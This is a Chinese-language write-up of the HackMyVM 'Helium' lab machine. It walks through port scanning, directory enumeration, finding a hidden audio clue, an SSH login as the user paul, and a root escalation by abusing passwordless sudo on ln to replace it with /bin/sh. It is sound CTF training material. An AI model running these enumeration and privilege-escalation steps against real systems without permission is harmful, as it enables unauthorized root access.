

# Helium


| 靶机名称 | 作者 | 难度 | 平台     |
| -------- | ---- | ---- | -------- |
| Helium   | sml  | 简单 | HackMyVM |

## 信息收集

### 端口检测

```shell
warn@kali:~$ nmap -sC -sV 192.168.174.139
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-07 13:33 CST
Nmap scan report for 192.168.174.139
Host is up (0.00066s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:f6:55:5f:c6:fa:fb:14:15:ae:4a:2b:38:d8:4a:30 (RSA)
|   256 b7:ac:87:6d:c4:f9:e3:9a:d4:6e:e0:4f:da:aa:22:20 (ECDSA)
|_  256 fe:e8:05:af:23:4d:3a:82:2a:64:9b:f7:35:e4:44:4a (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: RELAX
MAC Address: 00:0C:29:CB:70:EC (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.48 seconds
```

### 目录枚举

```shell
warn@kali:~$ gobuster dir -u http://192.168.174.139/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.174.139/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/yay                  (Status: 301) [Size: 185] [--> http://192.168.174.139/yay/]
Progress: 220558 / 220558 (100.00%)
===============================================================
Finished
===============================================================
warn@kali:~$ gobuster dir -u http://192.168.174.139/yay/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.174.139/yay/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 220558 / 220558 (100.00%)
===============================================================
Finished
===============================================================
```

* 发现了一个yay目录，再没有发现任何有用信息。

### web应用分析

```shell
warn@kali:~$ curl -s http://192.168.174.139/
<title>RELAX</title>
<!doctype html>
<html lang="en">

<!-- Please paul, stop uploading weird .wav files using /upload_sound -->

<head>
<style>
body {
  background-image: url('screen-1.jpg');
  background-repeat: no-repeat;
  background-attachment: fixed; 
  background-size: 100% 100%;
}
</style>
    <link href="bootstrap.min.css" rel="stylesheet">
    <meta name="viewport" content="width=device-width, initial-scale=1">
</head>

<body>
<audio src="relax.wav" preload="auto loop" controls></audio>
</body>                  
```

`<!-- Please paul, stop uploading weird .wav files using /upload_sound -->` :  Paul 请不要使用`/upload_sound`目录上传奇怪的 .wav 文件。

信息：

* paul 可能是用户名。
* /upload_sound 可能可以上传文件。
* relax.wav 
* screen-1.jpg
* bootstrap.min.css

```shell
warn@kali:~$ curl -i -s http://192.168.174.139/upload_sound/
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Tue, 07 Apr 2026 05:45:15 GMT
Content-Type: text/html
Content-Length: 26
Last-Modified: Sun, 22 Nov 2020 19:22:24 GMT
Connection: keep-alive
ETag: "5fbaba70-1a"
Accept-Ranges: bytes

Upload disabled (or not).
                           
warn@kali:~$ curl -i -s http://192.168.174.139/upload_sound/ -X POST
HTTP/1.1 405 Not Allowed
Server: nginx/1.14.2
Date: Tue, 07 Apr 2026 05:45:33 GMT
Content-Type: text/html
Content-Length: 173
Connection: keep-alive

<html>
<head><title>405 Not Allowed</title></head>
<body bgcolor="white">
<center><h1>405 Not Allowed</h1></center>
<hr><center>nginx/1.14.2</center>
</body>
</html>
```

*  `/upload_sound` 不允许 POST 请求，还有`Upload disabled (or not).`，可以判断出 `/upload_sound` 不允许上传文件。

对relax.wav，和screen-1.jpg，做了分析，并没有发现啥有用的内容。

```shell
warn@kali:~$ curl -i -s http://192.168.174.139/bootstrap.min.css                    
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Tue, 07 Apr 2026 05:50:42 GMT
Content-Type: text/css
Content-Length: 23
Last-Modified: Sun, 22 Nov 2020 19:22:47 GMT
Connection: keep-alive
ETag: "5fbaba87-17"
Accept-Ranges: bytes

/yay/mysecretsound.wav
```

* 发现了一个可疑文件，将其下载下来，分析频谱图发现隐藏信息：


这可能是密码。

## 初始访问

```shell
warn@kali:/tmp/123$ ssh paul@192.168.174.139 -p 22
paul@192.168.174.139's password: 
Linux helium 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Apr  7 01:15:04 2026 from 192.168.174.130
paul@helium:~$ id
uid=1000(paul) gid=1000(paul) groups=1000(paul),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
paul@helium:~$ 
```

## 系统信息枚举

```
paul@helium:~$ ls -al
total 36
drwxr-xr-x 3 paul paul 4096 Apr  7 01:29 .
drwxr-xr-x 3 root root 4096 Nov 22  2020 ..
-rw------- 1 paul paul  564 Apr  7 01:29 .bash_history
-rw-r--r-- 1 paul paul  220 Nov 22  2020 .bash_logout
-rw-r--r-- 1 paul paul 3526 Nov 22  2020 .bashrc
drwxr-xr-x 3 paul paul 4096 Nov 22  2020 .local
-rw-r--r-- 1 paul paul  807 Nov 22  2020 .profile
-rw------- 1 paul paul   17 Nov 22  2020 user.txt
-rw------- 1 paul paul   52 Nov 22  2020 .Xauthority
paul@helium:~$ find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null 
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 157192 Feb  2  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
paul@helium:~$ whereis getcap
getcap: /usr/sbin/getcap /usr/share/man/man8/getcap.8.gz
paul@helium:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ln = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
paul@helium:~$ sudo -l
Matching Defaults entries for paul on helium:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paul may run the following commands on helium:
    (ALL : ALL) NOPASSWD: /usr/bin/ln
```

## 权限提升



```shell
paul@helium:~$ sudo /usr/bin/ln -fs /bin/sh /bin/ln
paul@helium:~$ sudo /usr/bin/ln
# id
uid=0(root) gid=0(root) groups=0(root)
# bash
# 优化shell
```

## 获取flag

```shell
root@helium:~# cat root.txt
ilovetob[hidden]
root@helium:~# cat /home/paul/user.txt
ilovetobere[hidden]
```

## 总结

这个靶机的漏洞主要处于信息收集阶段，还挺简单的，这是我第一个靠自己完成的靶机，纪念一下，哈哈哈哈。

思路总结一下：

1. 端口扫描发现 22 80 
2. 对80端口进行目录枚举，发现一个yay目录。
3. web应用分析，在bootstrap.min.css发现可以文件(不要放过web应用上的任何文件，因为都有可能泄露出有用的信息)。访问bootstrap.min.css，发现/yay/mysecretsound.wav，下载并分析，发现密码。
4. 通过ssh登陆，枚举系统信息。
5. 提权(suid sudo getcap) ，记得每一个都看看，sudo 发现 ln，gtfobins 获取提权命令，提权。